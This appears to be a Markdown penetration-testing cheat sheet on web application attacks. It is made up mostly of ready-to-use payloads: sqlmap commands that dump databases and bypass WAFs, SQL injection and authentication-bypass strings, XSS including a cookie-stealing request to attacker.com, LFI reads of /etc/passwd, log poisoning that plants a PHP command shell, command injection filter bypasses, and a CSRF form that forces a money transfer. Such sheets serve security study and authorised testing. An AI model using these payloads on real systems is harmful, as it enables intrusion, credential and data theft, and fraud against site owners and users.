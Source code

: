 # Web Application Attacks

## File Upload Attacks

1. Analyze the website for upload functionality
2. Check source code for client-side filters
3. Test innocent file upload and determine how files are accessed
4. Test malicious uploads and observe filter responses
5. Bypass filters based on:
   - Extension blacklist/whitelist
   - Magic number validation
   - MIME type validation
   - File size limits

## SQL Injection

```bash
# Basic SQLMap usage
sqlmap -u http://<TARGET_IP>/register.php --forms

# Testing parameters
sqlmap -u "http://<TARGET_IP>/page.php?id=1" -p id

# Database enumeration
sqlmap -u "http://<TARGET_IP>/page.php?id=1" --dbs
sqlmap -u "http://<TARGET_IP>/page.php?id=1" -D database_name --tables
sqlmap -u "http://<TARGET_IP>/page.php?id=1" -D database_name -T table_name --columns
sqlmap -u "http://<TARGET_IP>/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump

# Bypassing WAF
sqlmap -u "http://<TARGET_IP>/page.php?id=1" --tamper=space2comment

# Manual SQL Injection
# Authentication bypass
' OR 1=1 --
' OR '1'='1
admin' --

# Union-based injection
' UNION SELECT 1,2,3 --
' UNION SELECT username,password,3 FROM users --

# Error-based injection
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version), 0x7e)) --
```

## Cross-Site Scripting (XSS)

```html
<!-- Basic XSS payloads -->
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<body onload="alert('XSS')">

<!-- Cookie stealing -->
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

<!-- DOM-based XSS -->
<script>document.getElementById("demo").innerHTML = location.hash.substring(1);</script>
```

## Local File Inclusion (LFI)

```
# Basic LFI
http://<TARGET_IP>/page.php?file=../../../etc/passwd

# LFI with wrappers
http://<TARGET_IP>/page.php?file=php://filter/convert.base64-encode/resource=index.php

# Log poisoning with LFI
# 1. Inject PHP code into logs by making malicious request:
nc <TARGET_IP> 80
GET /<?php system($_GET['cmd']); ?> HTTP/1.1
Host: <TARGET_IP>

# 2. Access logs through LFI:
http://<TARGET_IP>/page.php?file=../../../var/log/apache2/access.log&cmd=id
```

## Command Injection

```
# Basic tests
; id
| id
`id`
$(id)

# Bypassing filters
w'h'o'am'i
cat${IFS}/etc/passwd
```

## Cross-Site Request Forgery (CSRF)

```html
<!-- Basic CSRF form -->
<form action="https://vulnerable-site.com/transfer" method="POST" id="exploit">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
</form>
<script>document.getElementById("exploit").submit();</script>
```
